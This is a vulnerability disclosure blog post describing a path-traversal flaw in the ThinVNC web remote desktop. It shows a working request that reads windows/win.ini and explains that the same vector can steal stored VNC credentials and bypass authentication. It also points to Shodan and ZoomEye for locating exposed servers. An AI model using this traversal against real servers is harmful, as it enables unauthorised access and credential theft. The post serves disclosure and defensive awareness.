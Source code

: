 ```yaml
---
layout: post
title:  "ThinVNC Client Authentication Bypass"
date:   2019-10-16 18:05:55 +0300
image:  ThinVNC/title.png
author-name: jinxbox
tags:   [VNC, Auth Bypass, CVE]
---
```


<h2>Prologue:</h2>
In this blog post, I'll be writing few details about a vulnerability I found in ThinVNC. ThinVNC is a remote desktop client which works on web. I found an arbitrary file read vulnerability through which the authentication set can be bypassed. An attacker can gain remote terminal access abusing this vulnerability. 

<h3> ThinVNC Application </h3>
ThinVNC can be downloaded from [sourceforge](https://sourceforge.net/projects/thinvnc/) and the source code for this is available at [github](https://github.com/bewest/thinvnc). According to it's author ThinVNC is a pure HTML5 & AJAX Remote Desktop implementation. ThinVNC works on any HTML5-compliant web browser. Users can access a remote PC from any computer or mobile OS; no additional plugin or installation will be required on the client side. 

<h3> Vulnerability Description </h3>
ThinVNC uses Basic Authentication to authenticate a user to access the web VNC interface. Credentials to be used are set on the server side while deploying the VNC server. There is no fixed port on which VNC server runs, you can run the VNC server on any port pre-configured.

A sample authentication screen looks like this:
![auth](/img/ThinVNC/CVE-2.png)

When tried with multiple with wrong authentication credentials, it throws a HTTP 401 error. This can be bypassed using the following vector: <br>
<b>**/../../../../../../../../../windows/win.ini** </b>

<h4>Sample Request:</h4>

```
GET /xyz/../../../../../../../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 192.168.40.1:5888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
<h4>Sample Response: </h4>

```
HTTP/1.1 200
Content-Type: application/binary
Content-Length: 96
Connection: Keep-Alive

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
<br>
![Burp](/img/ThinVNC/CVE-4.png)
<br>

This directory traversal attack vector allows us to read any arbitrary file on the system. We can use the same vector to steal the credentials for the VNC client. Once we steal them, we can use the credentials to compromise the VNC server. Post compromise, we get terminal access to the VNC server.



<h3> POC: </h3>
My friend [@WarMarx](https://twitter.com/\_WarMarX\_) on Twitter and I have written a tiny POC for this issue which can be found here: [Github POC Link](https://github.com/shashankmangal2/Exploits/tree/master/ThinVNC-RemoteAccess)

<h3> ThinVNC in the wild  </h3>
There are roughly 800 accessible ThinVNC servers exposed over internet. You can use the following queries on Shondan and Zoomeye to identiify the vulnearble servers. 

<br>
[ZoomEye](https://zoomeye.org): 130 Active Servers Identified
![zoomeye](/img/ThinVNC/CVE-1.png)


<br>
[Shodan](https://shodan.io): 45 Active Servers Identified
<br>
![shodan](/img/ThinVNC/CVE-6.png)

SourceForge Page suggests that there are 219 downloads / week on an average of this VNC software. 

<h5>Few takeaways:</h5>
-  Never store Cleartext Credentials <br>
-  Never use HTTP/Basic Authentication <br>
-  Never stop hunting after an error page <br>

<h2> Conclusion: </h2>
This post was just a description of how this vulnerability was found. You could end up in a similiar scenario during a Pentest Op or a Red Team Op. Do not use legacy software, even though there are no POC's or CVE's available on those software, they might be vulnerable to some issue. Always keep yourself and your software updated. Cheers! :)


